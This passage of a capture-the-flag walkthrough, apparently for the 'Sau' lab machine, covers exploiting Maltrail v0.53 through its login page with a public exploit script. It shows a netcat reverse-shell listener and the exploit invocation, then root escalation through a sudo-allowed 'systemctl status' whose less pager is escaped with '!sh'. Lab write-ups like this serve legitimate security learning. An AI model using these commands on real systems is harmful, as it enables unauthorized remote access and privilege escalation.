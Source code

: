 Exploiting this vulnerability is very easy. You just need to download the [script](https://github.com/spookier/Maltrail-v0.53-Exploit) and run the exploit on the login page of Maltrail. However, there is one major question: we are unable to change the paths of the application running internally. Therefore, we need to change the forwarding route from `http://127.0.0.1:80` to `http://127.0.0.1:80/login`. 

Now we can launch our exploit. Start a netcat listener on your attacker machine.

```
nc -nlvp <port>
```

Exploit:
```
python3 exploit.py [your_ip] [netcat_port] [Basket_url_of_the_login_page]
```

After running the exploit, you can obtain a shell. Once you have successfully done so, you may use your preferred method to stabilize the shell.

We can see that got a shell as puma which is the only user on the machine. Now we can read the user flag at `/home/puma/user.txt` .


## Privilege Escalation

We now have a shell, so let's start by enumerating the files in Puma's home directory. There was nothing interesting in the user's home directory. After searching for a while, we found something interesting with the SUID permissions.

```
sudo -l
```

Result:
```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

 we can execute `systemctl` as root to check the status of `trail.service`. Let's executed the command and see.

```
sudo /usr/bin/systemctl status trail.service
```
  
We executed the command and saw that it checked the status and printed a lot on the screen.

Searched for privilege escalation methods with `systemctl` and found a way to escalate privileges with `systemctl` on [GTFobins](https://gtfobins.github.io/gtfobins/systemctl/) website. According to this, we can exploit `less` opened by the `systemctl` command to print logs with a simple `!sh`. Because we are running this command as root, `less` is also called with root, which can be confirmed with any process monitor like `pspy` and others. 
